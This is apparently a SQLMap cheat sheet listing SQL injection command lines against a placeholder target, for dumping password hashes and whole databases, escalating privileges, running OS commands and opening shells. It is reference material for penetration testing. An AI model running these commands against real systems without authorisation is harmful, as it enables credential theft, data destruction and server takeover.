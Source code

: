 # SQLMap
Target the http://target.server.com URL using the “-u” flag:  
`sqlmap -u 'http://target.server.com'`  

Specify POST requests by specifying the “–data” flag:  
`sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah'`  

Target a vulnerable parameter in an authenticated session by specifying cookies using the “–cookie” flag:  
`sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'`  

Drop all Set-Cookie requests from the target web server using the “–drop-set-cookie” flag:  
`sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie`  

Perform in-depth and risky attacks using the “–level” and “–risk” flags:  
`sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3`  

Specify which POST or GET parameter to target using the “-p” flag:  
`sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1`  

Choose a random User-Agent request header using the “–random-agent” flag:  
`sqlmap -u 'http://target.server.com' -r req.txt --random-agent`  

Target a certain database service using the “–dbms” flag:  
`sqlmap -u 'http://target.server.com' -r req.txt --dbms Oracle`  

Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:  
`sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords`  

Attempt privilege escalation on the target database  
`sqlmap -r ./req.txt --level=1 --risk=3 --privesc`  

Run the “whoami” command on the target server.  
`sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami`  

Dump everything in the database, but wait one second in-between requests.  
`sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1`  

Here are some useful options for your pillaging pleasure:  
`-r req.txt` Specify a request stored in a text file, great for saved requests from BurpSuite.  
`–force-ssl` Force SQLmap to use SSL or TLS for its requests. 
`–level=1` only test against the specified parameter, ignore all others.  
`–risk=3` Run all exploit attempts, even the dangerous ones (could damage database).  
`–delay` Set a delay in-between requests, great for throttled connections.  
`–proxy` Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.  
`–privesc` Attempt to elevate the privileges of the database service account.  
`–all` Enumerate everything inside the target database.  
`–hostname` Print the target database’s hostname.  
`–passwords` Find and exfiltrate all users and their password hashes or digests.  
`–dbs` Enumerate all databases accessible via the target webserver.  
`–comments` Enumerate all found comments inside the database.  
`–sql-shell` Return a SQL prompt for interaction.  
`–os-cmd` Attempt to execute a system command.  
`–os-shell` Attempt to return a command prompt or terminal for interaction. 
`–reg-read` Read the specified Windows registry key value.  
`–file-write` Specify a local file to be written to the target server.  
`–file-dest` Specify the remote destination to write a file to.  
`–technique` Specify a letter or letters of BEUSTQ to control the exploit attempts:  
B: Boolean-based blind  
E: Error-based  
U: Union query-based  
S: Stacked queries  
T: Time-based blind  
Q: Inline queries  
